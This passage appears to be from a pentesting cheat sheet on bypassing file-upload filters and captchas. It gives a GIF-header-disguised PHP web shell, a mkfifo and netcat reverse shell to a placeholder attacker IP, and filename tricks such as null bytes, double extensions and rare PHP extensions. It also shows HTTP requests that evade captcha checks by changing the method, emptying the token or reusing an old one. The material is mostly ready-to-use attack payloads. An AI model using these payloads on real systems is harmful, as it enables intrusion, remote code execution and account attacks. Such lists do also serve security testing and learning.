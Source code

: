 ### Add GIF header
```
. GIF89a;
. JFIF; <?php echo "<pre>"; system($_GET['cmd']); ?>
. GIF89 <reverse_shell|shell>
. echo '<?php' >> shell.php.png
. echo 'passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1337 >/tmp/f");' >> shell.php.png
. echo '?>' >> shell.php.png
```
### Using null byte in filename
```
file.php%00.gif
```
### Using double extensions for the uploaded file
```
file.jpg.php
```
### Uploading an unpopular php extensions (php4,php5,php6,phtml)
```
file.php5
```
### Try to randomly capitalizes the file extension
```
file.pHP5
```

## Captcha

### Try changing the request method, for example POST to GET
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123

------------------------------------------------------------------------------

GET /?_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123 HTTP 1.1
Host: target.com
[...]
```
### Try remove the value of the captcha parameter
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=&_Username=daffa&_Password=test123
```
### Try reuse old captcha token
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=OLD_CAPTCHA_TOKEN&_Username=daffa&_Password=test123
```